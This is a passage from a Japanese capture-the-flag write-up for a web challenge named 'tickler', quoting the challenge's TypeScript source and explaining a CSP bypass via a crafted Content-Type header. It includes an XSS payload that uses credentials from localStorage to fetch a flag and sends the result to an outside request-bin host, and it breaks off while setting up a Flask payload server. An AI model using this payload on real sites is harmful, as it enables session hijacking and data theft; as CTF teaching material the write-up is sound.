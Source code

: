 ```ts
                const { done, value } = await reader.read()
                if (done) break
                size += value.byteLength
                if (size > 1e6) {
                    return {
                        success: false as const,
                        message: 'Image too large.',
                    }
                }
                data.push(value)
            }

            const buffer = new Blob(data)
            const array = await buffer.arrayBuffer()
            const base64 = Buffer.from(array).toString('base64')
            pictures.set(ctx.user, {
                data: base64,
                type: response.headers.get('content-type') ?? 'image/png',
            })

            return { success: true as const }
        }),
~~~
```
プロフィール画像として外部のURLをfetchし、サイズなどのチェックの後にbase64エンコードしたデータとContent-Typeを保存している。  
また、`/picture`でクエリで指定したユーザ名のプロフィール画像が返ってくるようだ。  
```ts
~~~
    } else if (route === '/picture') {
        if (!url.includes('?')) return end()

        const query = new URLSearchParams(url.slice(url.indexOf('?')))
        const username = query.get('username')

        if (username === null) return end()

        const picture = pictures.get(username)
        if (picture === undefined) return end()

        const { data, type } = picture
        res.end(`data:${type};base64,${data}`)
~~~
```
```bash
$ curl 'https://tickler.web.actf.co/picture?username=hack'
data:image/jpeg;base64,/9j/4AAQSkZJRgABAQAAAQABA~~~
```
同じドメイン上のレスポンスとしてユーザからの入力が返ってくる機能であるため、CSP Bypassに用いることができそうだ。  
`data:`で始まり一見するとJavaScriptとして読み込めないと感じるが、Content-Typeを`alert(1);//`のようにすることで、`data:alert(1);//;base64,XXXXXXXXXX`のように有効なJavaScriptとすることができる。  
実行するXSSペイロードはlocalStorageのクレデンシャルを持ったまま`/getFlag`をfetchし、それを[リクエストを受信するサーバ](https://pipedream.com/requestbin)へ送信するものとなる。  
```js
fetch("/api/getFlag", {headers: {login: localStorage.username + ":" + localStorage.password, "content-type": "application/json"}}).then(res => res.text()).then(text => fetch("https://enqhnbwm4vjef.x.pipedream.net/?s=" + encodeURIComponent(text))); //satoki
```
以下のようなサーバをimg_server.pyとして外部に立て、プロフィール画像としてfetchさせることでXSSペイロードを設定すればよい。  
内容はbase64エンコードされるので、Content-typeに設定している点に注意が必要である。  
```python
from flask import Flask, Response

app = Flask(__name__)


```